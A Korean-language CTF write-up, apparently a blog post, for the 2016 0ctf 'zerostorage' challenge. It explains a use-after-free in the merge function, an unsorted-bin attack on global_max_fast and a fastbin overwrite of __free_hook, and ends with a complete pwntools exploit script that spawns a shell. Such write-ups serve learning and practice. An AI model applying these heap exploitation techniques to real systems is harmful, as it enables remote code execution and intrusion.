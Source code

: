 ```yaml
---
layout: post
title: "[2016 0ctf] zerostorage 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Try our super secret storage service - ZeroStorage
### Notice: Latest Ubuntu 14.04.4 LTS, with 3.13.0-79-generic kernel.
### 202.120.7.206 10101

hoyoyoyoyoyoyoyo

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_0ctf/zerostorage/01.png)
{: refdef}

으악

취약점은 `func_merge`에서 발생해요.

두 `entry`를 합치는 코드인데 코드 자체는 잘 짰으나 `from_entry`와 `to_entry`가 같은지 검사하지 않아요.

`realloc`을 하는데 `realloc`을 하고도 같은 `chunk`를 가리켜야 하니까 `len`은 `0x44`이하로 해야해요. 그럼 `free`를 하고도 `entry_list`엔 주소가 남아있어서 **uaf**가 발생해요.

나머진 귀찮 으어어어

- - -
# 0x01. 공격 방법

`unsorted_bin_attack`을 하면 원하는 주소에 `main_arena+88`의 주소를 넣을 수 있어요. 이게 `libc_leak` 정도만 쓰일 줄 알았는데 이 문제는 좀 띠용하게 사용했어요.

`fastbin`의 범위는 `global_max_fast`보다 작은 크기라서 기본적으론 `0x80`인가 들어있어요. 그런데 `unsorted_bin_attack`으로  `main_arena+88`을 넣어버리면 거의 모든 `chunk`를 `fastbin` 마냥 사용할 수 있어요.

이 문제에서 할당받을 수 있는 최소 크기가 `0x90`이라 `small_bin`이었는데 이젠 `fastbin`이에요.

그리고 `free_hook`를 뒤져보니까 `0x200`으로 인식하게 할 수 있는 데이터가 있어서 `0x200`짜리 `fastbin`으로 `fastbin_dup_into_stack`해서 `free_hook`를 덮었어요.

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "202.120.7.206"
PORT = 4444
#PORT = 10101

s = remote(HOST, PORT)
pause()

elf = ELF("./zerostorage")
libc = ELF("./libc.so.6")

libc_off = 0x3c4b78
system_off = libc.symbols["system"]
free_hook_off = libc.symbols["__free_hook"]
global_max_fast_off = 0x3c67f8

def func_insert(content):
    s.recvuntil("Your choice: ")
    s.sendline("1")

    s.recvuntil("Length of new entry: ")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_update(index, content):
    s.recvuntil("Your choice: ")
    s.sendline("2")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("Length of entry:")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_merge(from_index, to_index):
    s.recvuntil("Your choice: ")
    s.sendline("3")

    s.recvuntil("Merge from Entry ID: ")
    s.sendline(str(from_index))

    s.recvuntil("Merge to Entry ID: ")
    s.sendline(str(to_index))

def func_delete(index):
    s.recvuntil("Your choice: ")
    s.sendline("4")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

def func_view(index):
    s.recvuntil("Your choice: ")
    s.sendline("5")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("\n")

func_insert("A" * 0x44) # 0
func_insert("A" * 0xfc) # 1

func_merge(0, 0) # 0 -> 2

func_view(2)
libc_leak = u64(s.recv(8))
s.recvuntil("\n")

libc_base = libc_leak - libc_off
libc_system = libc_base + system_off
libc_free_hook = libc_base + free_hook_off
global_max_fast = libc_base + global_max_fast_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_free_hook : " + hex(libc_free_hook))
log.info("libc_system : " + hex(libc_system))
log.info("global_max_fast : " + hex(global_max_fast))
print

func_update(2, ("A" * 0x8 + p64(global_max_fast - 0x10)).ljust(0x88, "A")) # unsorted_bin_attack
func_insert("/bin/sh\0".ljust(0x88, "A")) # 0

func_merge(1, 1) # 1 -> 3
func_update(3, p64(libc_free_hook - 0x59).ljust(0x1f8, "A"))

func_insert("A" * 0x1f8) # 1
func_insert(("\x00" * 0x49 + p64(libc_system)).ljust(0x1f8, "\x00"))

func_delete(0) # system("/bin/sh")

s.interactive()
```
